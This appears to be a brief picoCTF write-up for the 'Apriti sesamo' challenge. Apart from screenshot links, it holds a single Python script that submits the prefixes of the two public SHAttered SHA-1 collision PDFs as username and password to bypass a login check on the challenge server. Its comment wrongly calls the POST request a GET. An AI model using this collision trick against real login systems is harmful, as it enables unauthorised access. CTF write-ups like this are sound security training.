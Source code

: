 ![1741669975100](images/Apriti_sesamo/1741669975100.png)

![1741670678328](images/Apriti_sesamo/1741670678328.png)

![1741671604395](images/Apriti_sesamo/1741671604395.png)



```
import requests
import urllib.request

# Read first 500 bytes of each PDF from shattered.io
soul = urllib.request.urlopen("https://shattered.io/static/shattered-1.pdf").read()[:500]
bah = urllib.request.urlopen("https://shattered.io/static/shattered-2.pdf").read()[:500]

# Send them as query parameters in a GET request
r = requests.post(
    'http://verbal-sleep.picoctf.net:57184/impossibleLogin.php',
    data={'username': soul, 'pwd': bah}
)

print(r.text)
```


![1741675175482](images/Apriti_sesamo/1741675175482.png)
